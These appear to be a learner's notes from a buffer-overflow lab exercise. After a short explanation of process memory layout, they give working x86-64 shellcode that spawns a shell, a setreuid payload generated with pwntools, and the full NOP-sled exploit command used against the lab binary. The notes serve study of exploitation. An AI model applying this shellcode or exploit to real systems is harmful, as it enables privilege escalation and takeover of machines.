

## Buffer overflow

**Process Layout -**  
Each program is ran as a process. And processor switched between multiple processes sooooo quickly that it looks that they are running at the same time. And switching is called context swtich. The OS keep track of all the information in a process because it may need different info to run. The memory is organised sequentially and has the following layout.   


+ Stack - It contains the information required to run the program. It includes current program counter, saved registers and more info. The section next to stack is unused memory for when the stack grows.  
+ Shared library region - Used to dynamically link libraries used by the program.
+ Heap - It increases and decreases dynamically as the program dynamically assigns memory. The section above it is empty because it can be used when heap grows.
+ Code/Data - Stores the program code and the initialised variables. 

```
set exec-wrapper env -u LINES -u COLUMNS
```
The following shellcode opens up a whole basic shell
```
\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05
```
GDB is OP  

Some important commands - 
Here's another shell - 
```
\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'
```
To generate a payload, you can use pwntools. LOOK INTO THAT AS WELL.
Used this for this room
```
pwn shellcraft -f d amd64.linux.setreuid 1002
```

NOP - \x90

To check te register inside gdb -
```
x/100x $rsp-200
```
The final command which worked for the final file - 
```
./buffer-overflow-2 $(python -c "print '\x90'*86+'\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*23 + '\x68\xe2\xff\xff\xff\x7f'")
```

Need to practice a lot more. Barely got a gist of the whole thing.